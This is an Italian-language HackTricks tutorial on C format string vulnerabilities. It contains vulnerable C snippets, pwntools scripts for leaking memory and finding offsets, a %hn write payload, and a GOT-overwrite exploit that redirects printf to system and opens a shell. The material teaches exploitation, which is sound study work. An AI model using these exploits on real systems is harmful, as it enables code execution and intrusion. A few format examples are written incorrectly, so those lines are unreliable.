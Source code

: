 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

In C **`printf`** è una funzione che può essere utilizzata per **stampare** una stringa. Il **primo parametro** che questa funzione si aspetta è il **testo grezzo con i formattatori**. I **parametri seguenti** attesi sono i **valori** da **sostituire** ai **formattatori** nel testo grezzo.

Altre funzioni vulnerabili sono **`sprintf()`** e **`fprintf()`**.

La vulnerabilità appare quando un **testo dell'attaccante viene utilizzato come primo argomento** per questa funzione. L'attaccante sarà in grado di creare un **input speciale abusando** delle capacità della **stringa di formato printf** per leggere e **scrivere qualsiasi dato in qualsiasi indirizzo (leggibile/scrivibile)**. Essere in grado in questo modo di **eseguire codice arbitrario**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Esempi:**

* Esempio vulnerabile:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Uso Normale:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Con argomenti mancanti:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf vulnerabile:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Accessing Pointers**

Il formato **`%<n>$x`**, dove `n` è un numero, consente di indicare a printf di selezionare il n-esimo parametro (dallo stack). Quindi, se vuoi leggere il 4° parametro dallo stack usando printf, potresti fare:
```c
printf("%x %x %x %x")
```
e potresti leggere dal primo al quarto parametro.

Oppure potresti fare:
```c
printf("$4%x")
```
e leggere direttamente il quarto.

Nota che l'attaccante controlla il parametro `pr`**`intf`**, il che significa fondamentalmente che** il suo input sarà nello stack quando viene chiamato `printf`, il che significa che potrebbe scrivere indirizzi di memoria specifici nello stack.

{% hint style="danger" %}
Un attaccante che controlla questo input sarà in grado di **aggiungere indirizzi arbitrari nello stack e far accedere `printf` a essi**. Nella sezione successiva verrà spiegato come utilizzare questo comportamento.
{% endhint %}

## **Lettura Arbitraria**

È possibile utilizzare il formattatore **`%n$s`** per far sì che **`printf`** ottenga l'**indirizzo** situato nella **n posizione**, seguendolo e **stamparlo come se fosse una stringa** (stampa fino a quando non viene trovato un 0x00). Quindi, se l'indirizzo base del binario è **`0x8048000`**, e sappiamo che l'input dell'utente inizia nella quarta posizione nello stack, è possibile stampare l'inizio del binario con:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Nota che non puoi mettere l'indirizzo 0x8048000 all'inizio dell'input perché la stringa sarà tagliata a 0x00 alla fine di quell'indirizzo.
{% endhint %}

### Trova l'offset

Per trovare l'offset per il tuo input puoi inviare 4 o 8 byte (`0x41414141`) seguiti da **`%1$x`** e **aumentare** il valore fino a recuperare le `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Quanto è utile

Le letture arbitrarie possono essere utili per:

* **Dump** il **binary** dalla memoria
* **Accedere a parti specifiche della memoria dove sono memorizzate informazioni sensibili** (come canarie, chiavi di crittografia o password personalizzate come in questa [**CTF challenge**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Scrittura Arbitraria**

Il formatter **`$<num>%n`** **scrive** il **numero di byte scritti** nell'**indirizzo indicato** nel parametro \<num> nello stack. Se un attaccante può scrivere quanti più caratteri possibile con printf, sarà in grado di far scrivere a **`$<num>%n`** un numero arbitrario in un indirizzo arbitrario.

Fortunatamente, per scrivere il numero 9999, non è necessario aggiungere 9999 "A" all'input, per farlo è possibile utilizzare il formatter **`%.<num-write>%<num>$n`** per scrivere il numero **`<num-write>`** nell'**indirizzo puntato dalla posizione `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Tuttavia, nota che di solito per scrivere un indirizzo come `0x08049724` (che è un numero ENORME da scrivere tutto in una volta), **si usa `$hn`** invece di `$n`. Questo consente di **scrivere solo 2 Byte**. Pertanto, questa operazione viene eseguita due volte, una per i 2B più alti dell'indirizzo e un'altra volta per i più bassi.

Pertanto, questa vulnerabilità consente di **scrivere qualsiasi cosa in qualsiasi indirizzo (scrittura arbitraria).**

In questo esempio, l'obiettivo sarà **sovrascrivere** l'**indirizzo** di una **funzione** nella tabella **GOT** che verrà chiamata successivamente. Anche se questo potrebbe abusare di altre tecniche di scrittura arbitraria per eseguire:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Stiamo per **sovrascrivere** una **funzione** che **riceve** i suoi **argomenti** dall'**utente** e **puntarla** alla **funzione** **`system`**.\
Come accennato, per scrivere l'indirizzo, di solito sono necessari 2 passaggi: **prima scrivi 2Byte** dell'indirizzo e poi gli altri 2. Per fare ciò si usa **`$hn`**.

* **HOB** è chiamato per i 2 byte più alti dell'indirizzo
* **LOB** è chiamato per i 2 byte più bassi dell'indirizzo

Poi, a causa di come funziona la stringa di formato, devi **scrivere prima il più piccolo** di \[HOB, LOB] e poi l'altro.

Se HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Se HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Modello Pwntools

Puoi trovare un **modello** per preparare un exploit per questo tipo di vulnerabilità in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

O questo esempio di base da [**qui**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

È possibile abusare delle azioni di scrittura di una vulnerabilità di formato stringa per **scrivere negli indirizzi dello stack** e sfruttare una vulnerabilità di tipo **buffer overflow**.

## Altri Esempi & Riferimenti

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, no relro, no canary, nx, no pie, uso base delle stringhe di formato per rivelare il flag dallo stack (non è necessario alterare il flusso di esecuzione)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, stringa di formato per sovrascrivere l'indirizzo `fflush` con la funzione win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, no canary, nx, no pie, stringa di formato per scrivere un indirizzo dentro main in `.fini_array` (così il flusso torna indietro 1 volta in più) e scrivere l'indirizzo a `system` nella tabella GOT puntando a `strlen`. Quando il flusso torna a main, `strlen` viene eseguito con input dell'utente e puntando a `system`, eseguirà i comandi passati.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
